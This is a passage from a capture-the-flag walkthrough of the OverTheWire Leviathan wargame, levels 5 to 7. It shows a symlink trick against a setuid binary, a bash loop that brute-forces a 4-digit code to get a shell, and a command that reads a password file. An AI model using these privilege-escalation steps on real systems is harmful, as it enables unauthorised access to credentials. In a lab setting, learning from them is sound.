 ```
```

Explanation :
We have an executable that look for a `/tmp/file.log` file and print its content as leviathan6 if it exists. We create a symbolic link to the password file and it prints the password !

# Level 6 => 7

`ssh -p 2223 leviathan6@leviathan.labs.overthewire.org` with the password found.

```
leviathan6@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 May 10 18:27 .
drwxr-xr-x 10 root       root       4096 May 10 18:27 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-rw-r--r--  1 root       root        675 May 15  2017 .profile
-r-sr-x---  1 leviathan7 leviathan6 7656 May 10 18:27 leviathan6
leviathan6@leviathan:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
```
Welp ... Time for bruteforce I guess.

```
leviathan6@leviathan:~$ for i in {0..9999}
> do
> code=$(printf "%04d" $i)
> ~/leviathan6 $code
> done
```
Let it run a few seconds and you will be dropped into a shell :

```
...
...
...
Wrong
Wrong
Wrong
$ cat /etc/leviathan_pass/leviathan7
<CENSORED>
```

# Level 7

`ssh -p 2223 leviathan7@leviathan.labs.overthewire.org` with the password found.

```
leviathan7@leviathan:~$ ls
CONGRATULATIONS
leviathan7@leviathan:~$ cat CONGRATULATIONS 
Well Done, you seem to have used a *nix system before, now try something more serious.
(Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)
```
